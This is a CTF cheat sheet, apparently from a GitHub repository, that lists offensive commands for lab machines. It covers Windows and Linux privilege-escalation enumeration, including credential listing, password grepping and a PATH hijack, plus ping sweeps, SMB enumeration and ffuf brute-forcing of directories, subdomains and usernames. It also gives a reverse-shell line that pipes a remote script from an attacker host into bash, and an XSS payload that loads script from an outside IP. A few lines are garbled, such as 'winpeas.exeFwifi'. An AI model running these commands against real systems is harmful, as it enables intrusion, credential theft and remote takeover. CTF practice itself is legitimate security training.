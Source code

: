 # CtfCheatsheet
## privesc
### windows
```
cmdkey /list
whoami /all
wmic logicaldisk get name
get-process
winpeas.exeFwifi
powerup.ps1 invoke-allchecks
dir \ /s/b | find ""
findstr /sp administrator *
```
### linux
```
sudo -l
linpeas
pspy64
find / -type f -newermt "2019-05-05" ! -newermt "2019-05-26" -ls 2>/dev/null
grep -R -i passwd,password,db_passwd,db_pass
export PATH=.:$PATH
```
### Ping sweep
```
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
(for /L %a IN (1,1,254) DO ping /n 1 /w 3 192.168.2.%a) | find "Reply"
```
## reverseshell
  ```
  wget -O - 10.10.14.6/shell.sh | bash
  ```
## smb
  ```
  net view \\target /all
  ```
## view errors redirecting STDERR to STDOUT
  ```poweshell
  2>&1
  ```
## FFUF
  ```
  ffuf -w ./SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.html,.sh,.txt,.aspx -u http://10.10.11.175:8530/FUZZ/ -mc all -ic
  ffuf -w ./SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" -fs
  ffuf -w ./SecLists/Fuzzing/special-chars.txt -u http://10.10.10.70/submit -d "character=bart&quote=FUZZ" -H Content-Type:application/x-www-form-urlencoded -mc all
  ffuf -w .\SecLists\Usernames\xato-net-10-million-usernames.txt -u http://10.10.11.160:5000/login -d "username=FUZZ&password=nidecoña" -H Content-Type:application/x-www-form-urlencoded -mr 'Invalid login'
  ```
## XSS
  ```
  <script src="http://10.10.14.7"></script>
  ```